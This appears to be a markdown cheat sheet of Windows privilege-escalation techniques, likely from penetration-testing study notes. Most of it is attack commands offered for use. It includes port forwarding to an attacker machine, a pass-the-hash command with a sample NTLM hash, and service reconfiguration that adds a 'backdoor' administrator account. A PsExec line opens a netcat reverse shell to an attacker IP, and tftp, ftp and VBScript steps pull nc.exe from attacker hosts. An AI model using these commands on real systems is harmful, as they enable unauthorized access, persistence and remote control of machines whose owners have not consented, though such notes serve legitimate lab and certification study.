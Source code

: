 Nestat:
* `netstat -alnp`: see what ports are on LISTENING state, but not pubicly accessible from the outside.
* There's often a SQL server/tomcat/smb/samba running, but not public facing.
* You can port-forward back to your machine and hit them with public exploits for root shell.
* E.g.:
```powershell
$ plink.exe -l root 10.11.0.42 -R 445:127.0.0.1:445      // forward target local p445 -> attacker p445
$ pth-winexe -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE // run cmd.exe
```

Accesschk.exe (find weak service/file/folder permissions):
* http://www.fuzzysecurity.com/tutorials/16.html
```
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

Badly configured services:
```powershell
# Vulnerable services
sc qc <vulnerable service name>
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add" 
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add" 

sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
net start <vulnerable-service>
```

Psexec.exe:
```vb
$ PsExec -u tom -p iamtom \\TOMSCOMP C:\path\to\nc.exe IP_OF_ATTACKING_SYSTEM 8080 -e C:\windows\system32\cmd.exe
```
* https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15

Net Use:
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15

Windows file transfer methods:
```powershell
# Run: https://gist.github.com/sckalath/ec7af6a1786e3de6c309
$ cscript wget.vbs http://10.11.0.42/nc.exe

# tftp: set up tftp folder in Kali box
$ mkdir /tftp
$ atftpd --daemon --port 69 /tftp
$ cp /usr/share/windows-binaries/nc.exe /tftp/
# tftp: download nc.exe to target machine
cmd> tftp -i 10.11.0.63 get nc.exe
cmd> "Transfer successful: 59392 bytes in 31 seconds."

# (KALI) ftp - start FTP server
$ python -m pyftpdlib -p 21
# (TARGET) ftp - connect to server, get file
$ echo open 10.10.15.39 21> ftp.txt
$ echo USER anonymous>> ftp.txt
$ echo PASS anonymous@>> ftp.txt
$ echo bin>> ftp.txt
$ echo GET nc.exe>> ftp.txt
$ echo bye>> ftp.txt
$ ftp -v -n -s:ftp.txt

# Certutil ???
```